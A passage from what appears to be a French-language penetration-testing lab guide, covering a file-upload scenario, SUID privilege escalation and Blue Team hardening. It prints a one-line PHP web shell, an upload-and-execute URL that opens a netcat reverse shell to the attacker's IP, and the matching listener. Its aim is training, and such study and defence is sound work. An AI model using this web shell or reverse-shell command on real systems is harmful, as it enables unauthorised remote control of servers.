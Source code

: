 ### Étapes :
1. Créer la payload :
```php
<?php system($_GET['cmd']); ?>
```
2. L’uploader sur `/uploads/`
3. Exécuter :
```
http://IP/uploads/shell.php?cmd=nc -e /bin/sh IP 4444
```
4. Sur l’attaquant :
```bash
nc -lvp 4444
```

---

## 5.5 – Scénario 4 : Escalade de privilège avec SUID

### Objectif :
Repérer un binaire SUID exploitable et obtenir une élévation de privilège.

### Étapes :
1. Lister les fichiers SUID :
```bash
find / -perm -4000 -type f 2>/dev/null
```
2. Identifier `/usr/bin/passwd` ou autre binaire
3. Vérifier si exécutable par un utilisateur non privilégié
4. Exploiter (ex: via script ou code C)

---

## 5.6 – Scénario 5 : Sécurisation active (Blue Team)

### Objectif :
Empêcher une exploitation en direct via File Upload.

### Étapes :
1. Désactiver exécution PHP dans `/uploads`
```apache
<Directory "/var/www/html/uploads">
    php_admin_flag engine off
</Directory>
```
2. Bloquer netcat :
```bash
chmod -x /bin/nc
```
3. Restreindre www-data :
```bash
usermod -L www-data
```
4. Bloquer le port 4444 :
```bash
ufw deny 4444/tcp
```
5. Activer Fail2ban :
```bash
systemctl enable fail2ban
```

---